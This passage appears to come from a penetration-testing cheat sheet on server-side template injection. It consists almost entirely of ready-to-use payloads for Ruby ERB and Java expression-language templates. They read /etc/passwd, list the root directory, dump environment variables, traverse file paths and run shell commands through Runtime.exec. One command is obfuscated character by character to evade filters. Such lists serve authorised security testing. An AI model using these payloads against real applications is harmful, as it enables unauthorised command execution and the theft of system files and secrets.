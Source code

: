## Methodology

![SSTI cheatsheet workflow](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Images/serverside.png?raw=true)

## Ruby

### Basic injection

```ruby
<%= 7 * 7 %>
```

### Retrieve /etc/passwd

```ruby
<%= File.open('/etc/passwd').read %>
```

### List files and directories

```ruby
<%= Dir.entries('/') %>
```

## Java

### Basic injection

```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```

### Retrieve the system’s environment variables

```java
${T(java.lang.System).getenv()}
```

### Retrieve /etc/passwd

```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
